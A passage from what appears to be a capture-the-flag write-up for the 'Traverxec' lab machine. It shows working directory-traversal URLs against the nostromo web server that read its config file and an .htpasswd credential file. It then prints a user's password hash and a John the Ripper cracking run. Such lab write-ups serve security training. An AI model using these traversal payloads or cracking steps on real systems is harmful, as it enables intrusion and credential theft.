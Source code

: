 
## Exploitation
So the directory traversal attack seems to be working.

I had to browse around a little bit and finally found an interesting `config` file.

```apache
http://10.10.10.165/.%0D./.%0D./nostromo/conf/nhttpd.conf

# MAIN [MANDATORY]
servername  traverxec.htb
serverlisten  *
serveradmin  david@traverxec.htb
serverroot  /var/nostromo
servermimes  conf/mimes
docroot   /var/nostromo/htdocsdoc
index  index.html
# LOGS [OPTIONAL]l
ogpid   logs/nhttpd.pid
# SETUID [RECOMMENDED]
user   www-data
# BASIC AUTHENTICATION [OPTIONAL]
htaccess  .htaccess
htpasswd  /var/nostromo/conf/.htpasswd
# ALIASES [OPTIONAL]
/icons   /var/nostromo/icons
# HOMEDIRS [OPTIONAL]
homedirs  /home
homedirs_public  public_www
```

There are few interesting lines in this config

```apache
htpasswd  /var/nostromo/conf/.htpasswd
```

and

```apache
homedirs  /home
homedirs_public  public_www
```

Lets see the contents of `.htpasswd`
```apache
http://10.10.10.165/.%0D./.%0D./.%0D./var/nostromo/conf/.htpasswd

david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Looks like we have some credentials. Lets see if we can crack it.

#### John The Ripper
```bash
root@kali:~/Desktop/traverxec# john --wordlist=/usr/share/wordlists/rockyou.txt .htaccess 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:08 4.24% (ETA: 15:59:00) 0g/s 86902p/s 86902c/s 86902C/s andre93..anakin3
0g 0:00:00:13 6.90% (ETA: 15:59:00) 0g/s 86429p/s 86429c/s 86429C/s 075582..072609069
0g 0:00:00:15 7.89% (ETA: 15:59:02) 0g/s 84891p/s 84891c/s 84891C/s slash14..sl9024
0g 0:00:00:45 21.29% (ETA: 15:59:23) 0g/s 71746p/s 71746c/s 71746C/s thebled03..thebigwaid
0g 0:00:00:46 21.89% (ETA: 15:59:22) 0g/s 71864p/s 71864c/s 71864C/s tazpam..tazmen1
0g 0:00:01:26 43.04% (ETA: 15:59:11) 0g/s 71815p/s 71815c/s 71815C/s lelfie21..leleis#1
```